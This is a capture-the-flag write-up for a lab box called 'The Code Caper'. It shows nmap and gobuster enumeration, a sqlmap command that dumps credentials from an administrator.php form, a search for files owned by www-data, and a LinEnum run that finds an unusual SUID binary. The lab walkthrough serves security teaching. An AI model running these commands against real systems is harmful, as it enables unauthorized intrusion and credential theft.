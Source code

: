 # The Code Caper - Write-Up by unguest
This write-up may be intended only for those who already finished this box. However, you can have a quick look at it if you're totally lost.

## I - Host enumeration
For this part, I'm using this command : 
```bash
nmap -p 1-1000 -sV -sS <ip>
```

-p 1-1000 => Scan only the 1000 first ports

-sV => Get the services' version (as we're blind for now, I expected to find a vulnerable service with a CVE)

-sS => Perform a SYN-STEALTH scan

Here is the output of the scan : 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-08 18:40 CEST
Nmap scan report for 10.10.212.142
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.34 seconds

```

From this output, we can have all the informmation needed to answer the three following questions :

### Question 1
We have 2 ports opened on this machine : 22 & 80

### Question 2
The webpage's (http://<ip>/index.html) title is "Apache2 Ubuntu Default Page: It works"

### Question 3
The SSH version is OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

## II - Web Enumeration
For this part, I used gobuster as suggested as long as dirb doesn't handle files but only directories.

```
gobuster dir -x php,txt,html --wordlist /usr/share/wordlists/dirb/big.txt --url <ip>
```

Please note that the path I'm using here only works for the Kali distro. You may need to download it manually if your distro doesn't come with it natively.

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.212.142
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html                                                                                                                                                                                                           
[+] Timeout:        10s                                                                                                                                                                                                                    
===============================================================                                                                                                                                                                            
2020/04/08 18:48:50 Starting gobuster                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
/.htaccess (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/administrator.php (Status: 200)
```

I stopped the script as soon as I saw the administrator.php file : I knew it was the 'important file' of the server.

## III - Web Exploitation
As I knew their won't be many records in the database, I didn't use the -all sub-flag.

My exploiting command was tho : 

```bash
sqlmap -u <ip>/administrator.php --forms --dump
```

Then we have the 2 credentials that appears... magically :p.

## IV - Command Execution
Firstly, I want to say a big thanks to Psyrkoz#0405 & MuirlandOracle#2721 who debugged me. In fact, This part was the most costful in time on the whole box.

At a glance, I think everyone would use this command : 

```bash
find /* -user pingu
```

But We have many other users and here www-data is our candidate ! 

```bash
find /* -user www-data
```
is returning us 
```bash
 /var/hidden/pass 
 ```
 on its last line, which clearly shows us the way to go !

## V - LinEnum
To 'inject' LinEdum into the system, I ran into a rough and raw solution (that I don't recommend even if I used it) : Copy/Paste the content of [linenum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) through a SSH session (now we have the SSH password of Pingu, let's exploit it !).

Then I ran this command : 

```bash
chmod +x ./linenum.sh
./linenum.sh | grep SUID -A30
```
And as a part of the output, we find this : 

```bash
[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 21:07 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
```

As we can see, the first line looks pretty... unusual and it is : It's the answer of this part
